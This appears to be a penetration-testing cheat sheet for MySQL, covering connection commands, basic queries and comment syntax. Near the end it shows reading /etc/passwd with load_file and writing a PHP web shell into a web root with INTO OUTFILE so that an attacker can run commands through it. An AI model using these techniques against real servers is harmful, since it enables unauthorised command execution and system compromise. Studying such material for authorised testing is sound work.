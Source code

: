 
## Overview
---
**MySQL** is an open-source relational database management system. It is widely used for storing and managing data in various applications, providing a robust and scalable solution for database needs.

- Default Port: **3306**

## Usage
---

### Connecting to Databases

```shell
# Connect to a local database (prompt for password)
mysql -u <username> -p

# Connect to a remote database (prompt for password)
mysql -h <ip_addr> -u <username> -p

# Connect to a remote database port forwarded to 127.0.0.1:3306
mysql -h 127.0.0.1 -u <username> -p
```

### Commands

```mysql
-- General Usage
show databases;
use <database>;
show tables;
describe <table>;
show columns from <table>;
select * from <table>;
select <column>,<column>,<column> from <table>;

-- Read File (need FILE privileges to read/write to files)
select load_file('/etc/passwd');

-- Write File (need FILE privileges to read/write to files)
select 1,2,"Hello World",4 into OUTFILE '/tmp/testing.txt'

-- Advanced: Write a PHP reverse shell to an LFI Location
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/revshell.php'
-- Attacker then navigates to 'http://<ip_addr>:<port>/revshell.php'
```

### Comments

```mysql
-- This is a single-line comment

/*
This is a multi-line comment
*/
```